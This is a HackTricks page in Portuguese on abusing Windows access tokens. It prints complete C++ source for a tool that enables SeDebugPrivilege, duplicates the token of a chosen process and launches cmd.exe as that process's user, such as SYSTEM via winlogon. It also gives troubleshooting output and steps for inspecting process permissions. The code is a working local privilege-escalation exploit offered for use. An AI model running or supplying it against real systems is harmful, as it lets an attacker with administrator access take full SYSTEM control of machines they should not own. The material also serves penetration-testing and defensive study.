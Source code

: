 <details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>


## Código

O código a seguir de [aqui](https://medium.com/@seemant.bisht24/understanding-and-abusing-access-tokens-part-ii-b9069f432962). Ele permite **indicar um ID de Processo como argumento** e um CMD **executando como o usuário** do processo indicado será executado.\
Executando em um processo de Alta Integridade você pode **indicar o PID de um processo em execução como Sistema** (como winlogon, wininit) e executar um cmd.exe como sistema.
```cpp
impersonateuser.exe 1234
```
{% code title="impersonateuser.cpp" %}
```cpp
// From https://securitytimes.medium.com/understanding-and-abusing-access-tokens-part-ii-b9069f432962

#include <windows.h>
#include <iostream>
#include <Lmcons.h>
BOOL SetPrivilege(
HANDLE hToken,          // access token handle
LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
BOOL bEnablePrivilege   // to enable or disable privilege
)
{
TOKEN_PRIVILEGES tp;
LUID luid;
if (!LookupPrivilegeValue(
NULL,            // lookup privilege on local system
lpszPrivilege,   // privilege to lookup
&luid))        // receives LUID of privilege
{
printf("[-] LookupPrivilegeValue error: %u\n", GetLastError());
return FALSE;
}
tp.PrivilegeCount = 1;
tp.Privileges[0].Luid = luid;
if (bEnablePrivilege)
tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
else
tp.Privileges[0].Attributes = 0;
// Enable the privilege or disable all privileges.
if (!AdjustTokenPrivileges(
hToken,
FALSE,
&tp,
sizeof(TOKEN_PRIVILEGES),
(PTOKEN_PRIVILEGES)NULL,
(PDWORD)NULL))
{
printf("[-] AdjustTokenPrivileges error: %u\n", GetLastError());
return FALSE;
}
if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
{
printf("[-] The token does not have the specified privilege. \n");
return FALSE;
}
return TRUE;
}
std::string get_username()
{
TCHAR username[UNLEN + 1];
DWORD username_len = UNLEN + 1;
GetUserName(username, &username_len);
std::wstring username_w(username);
std::string username_s(username_w.begin(), username_w.end());
return username_s;
}
int main(int argc, char** argv) {
// Print whoami to compare to thread later
printf("[+] Current user is: %s\n", (get_username()).c_str());
// Grab PID from command line argument
char* pid_c = argv[1];
DWORD PID_TO_IMPERSONATE = atoi(pid_c);
// Initialize variables and structures
HANDLE tokenHandle = NULL;
HANDLE duplicateTokenHandle = NULL;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInformation;
ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
startupInfo.cb = sizeof(STARTUPINFO);
// Add SE debug privilege
HANDLE currentTokenHandle = NULL;
BOOL getCurrentToken = OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &currentTokenHandle);
if (SetPrivilege(currentTokenHandle, L"SeDebugPrivilege", TRUE))
{
printf("[+] SeDebugPrivilege enabled!\n");
}
// Call OpenProcess(), print return code and error code
HANDLE processHandle = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, PID_TO_IMPERSONATE);
if (GetLastError() == NULL)
printf("[+] OpenProcess() success!\n");
else
{
printf("[-] OpenProcess() Return Code: %i\n", processHandle);
printf("[-] OpenProcess() Error: %i\n", GetLastError());
}
// Call OpenProcessToken(), print return code and error code
BOOL getToken = OpenProcessToken(processHandle, MAXIMUM_ALLOWED, &tokenHandle);
if (GetLastError() == NULL)
printf("[+] OpenProcessToken() success!\n");
else
{
printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
}
// Impersonate user in a thread
BOOL impersonateUser = ImpersonateLoggedOnUser(tokenHandle);
if (GetLastError() == NULL)
{
printf("[+] ImpersonatedLoggedOnUser() success!\n");
printf("[+] Current user is: %s\n", (get_username()).c_str());
printf("[+] Reverting thread to original user context\n");
RevertToSelf();
}
else
{
printf("[-] ImpersonatedLoggedOnUser() Return Code: %i\n", getToken);
printf("[-] ImpersonatedLoggedOnUser() Error: %i\n", GetLastError());
}
// Call DuplicateTokenEx(), print return code and error code
BOOL duplicateToken = DuplicateTokenEx(tokenHandle, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
if (GetLastError() == NULL)
printf("[+] DuplicateTokenEx() success!\n");
else
{
printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
}
// Call CreateProcessWithTokenW(), print return code and error code
BOOL createProcess = CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", NULL, 0, NULL, NULL, &startupInfo, &processInformation);
if (GetLastError() == NULL)
printf("[+] Process spawned!\n");
else
{
printf("[-] CreateProcessWithTokenW Return Code: %i\n", createProcess);
printf("[-] CreateProcessWithTokenW Error: %i\n", GetLastError());
}
return 0;
}
```
## Erro

Em algumas ocasiões, você pode tentar se passar pelo Sistema e não funcionará, mostrando uma saída como a seguinte:
```cpp
[+] OpenProcess() success!
[+] OpenProcessToken() success!
[-] ImpersonatedLoggedOnUser() Return Code: 1
[-] ImpersonatedLoggedOnUser() Error: 5
[-] DuplicateTokenEx() Return Code: 0
[-] DupicateTokenEx() Error: 5
[-] CreateProcessWithTokenW Return Code: 0
[-] CreateProcessWithTokenW Error: 1326
```
Isso significa que mesmo que você esteja rodando em um nível de Integridade Alta **você não tem permissões suficientes**.\
Vamos verificar as permissões atuais do Administrador sobre os processos `svchost.exe` com o **processes explorer** (ou você também pode usar o process hacker):

1. Selecione um processo de `svchost.exe`
2. Clique com o botão direito --> Propriedades
3. Dentro da aba "Segurança" clique no canto inferior direito no botão "Permissões"
4. Clique em "Avançado"
5. Selecione "Administradores" e clique em "Editar"
6. Clique em "Mostrar permissões avançadas"

![](<../../.gitbook/assets/image (322).png>)

A imagem anterior contém todos os privilégios que os "Administradores" têm sobre o processo selecionado (como você pode ver no caso do `svchost.exe`, eles têm apenas privilégios de "Consulta")

Veja os privilégios que os "Administradores" têm sobre o `winlogon.exe`:

![](<../../.gitbook/assets/image (323).png>)

Dentro desse processo, os "Administradores" podem "Ler Memória" e "Ler Permissões", o que provavelmente permite que os Administradores se façam passar pelo token usado por esse processo.



<details>

<summary><strong>Aprenda hacking AWS do zero ao avançado com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

